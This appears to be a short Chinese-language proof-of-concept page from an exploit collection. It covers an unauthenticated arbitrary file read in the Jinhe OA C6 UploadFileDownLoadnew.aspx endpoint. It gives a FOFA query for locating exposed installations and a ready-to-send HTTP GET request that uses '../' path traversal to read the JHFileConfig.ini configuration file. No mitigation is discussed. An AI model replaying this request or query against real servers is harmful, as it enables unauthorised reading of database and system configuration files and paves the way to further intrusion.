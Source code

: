 ## 金和OA_C6_UploadFileDownLoadnew存在任意文件读取漏洞

金和OA C6 UploadFileDownLoadnew.aspx接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```
body="JHSoft.Web.AddMenu" || app="金和网络-金和OA"
```

## poc

```
GET /c6/JHSoft.Web.CustomQuery/UploadFileDownLoadnew.aspx/?FilePath=../Resource/JHFileConfig.ini HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240702215558016](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022155071.png)